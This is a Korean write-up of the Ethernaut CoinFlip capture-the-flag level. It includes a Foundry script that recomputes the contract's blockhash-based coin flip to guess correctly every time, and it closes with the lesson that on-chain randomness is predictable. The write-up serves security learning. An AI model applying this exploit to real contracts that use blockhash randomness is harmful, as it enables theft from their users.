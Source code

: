 ```yaml
---
tags:
  - Ethernaut
  - Write-up
---
```

Random인 척 하는 값을 이용한다고도 볼 수 있고.. Random을 구현하기 힘듦을 나타내는 것이라고도 할 수 있고.. 아무튼 그런 문제입니다.

![[Pasted image 20241004045902.png]]

초 심플한 문제입니다. `flip()` 함수 하나만 있는데, 플레이어가 할 일은 `_guess` 값을 제대로 넣는 것 밖에 없습니다.
솔직히 script 짜기 귀찮지만, 연습삼아 해보기로 했습니다.

아래 문서 등을 참고하며 짰습니다.
- [Foundry, getBlockNumber](https://book.getfoundry.sh/cheatcodes/get-block-number)


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {CoinFlip} from "../src/EN_3_CoinFlip.sol";

contract EN_3 is Script {
    CoinFlip public ctrt = CoinFlip(payable(0x06B1D212B8da92b83AF328De5eef4E211Da02097));


    function run() public {
        uint FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

        vm.startBroadcast(vm.envUint("PRIV_KEY"));
        uint blockValue = uint(blockhash(vm.getBlockNumber() - 1));
        console.log(vm.getBlockNumber());
        console.log(block.number);

        uint coinflip = blockValue / FACTOR;
        bool guess = coinflip == 1 ? true : false;
        ctrt.flip(guess);

        console.log("Win count:", ctrt.consecutiveWins());
        vm.stopBroadcast();
    }
}
```

문제의 로직을 그대로 들고와서 똑같이 계산해주면 되는 문제입니다.
on-chain data를 기반으로 random value를 생성하는건 하면 안되는 문제입니다.

---

## 여담
10번 반복해야 하는 문제라서, `for` 를 넣으면 쉽게 해결되지 않을까 생각했는데, 스크립트 실행 한 번이 Tx 한 번을 날리는 것 같습니다. (같은 block.number를 계속 사용합니다)
